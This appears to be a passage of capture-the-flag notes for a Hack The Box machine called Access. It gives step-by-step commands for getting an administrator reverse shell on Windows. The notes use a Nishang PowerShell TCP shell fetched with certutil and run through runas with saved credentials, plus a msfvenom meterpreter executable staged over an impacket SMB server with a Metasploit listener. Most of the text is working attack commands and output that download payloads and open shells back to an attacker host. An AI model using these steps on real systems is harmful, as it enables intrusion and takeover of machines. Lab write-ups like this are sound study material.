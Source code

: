 ==============================================================
## Meth 2 :  Use credentials to cal a remote shell whith credentials
### Use Invoke-PowershellTcp
Use : /usr/share/nishang/Shells/Invoke-PowershellTcp.ps1
echo "InvokePowerShellTcp Reverse IPAddress 10.10.14.14 Port 4443">> ./Invoke-PowershellTcp.ps1
$ python -m SimpleHTTPServer

### wget from windows : certutil
> certutil -f -split -urlcache http://10.10.14.14:8000/Invoke.ps1 Invoke.ps1

### prepare nc
root@kali:~/htb/access# nc -lvnp 4443

### Run with admin credentials
runas /user:ACCESS\administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\Invoke-PowerShellTcp.ps1"

==============================================================
## Meth 3 : Meterpreter/Powershell with credentials :  ok

First generate the exe with msfvenom.
````
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=12345 -f exe -o meter-rev-12345.exe
````
Next, spin up an smb server on kali pointed at the directory where the exe resides.
````
$ impacket-smbserver epi /root/htb/access
````
On target, simply copy the file from kali using a normal UNC path.
````
C:\Users\security> copy \\10.10.14.77\epi\meter-rev-12345.exe
copy \\10.10.14.77\epi\meter-rev-12345.exe
        1 file(s) copied.
````
Spin up a listener on kali.
````
$ msfconsole
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 12345
lport => 12345
msf5 exploit(multi/handler) > exploit -j

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.77:12345
````
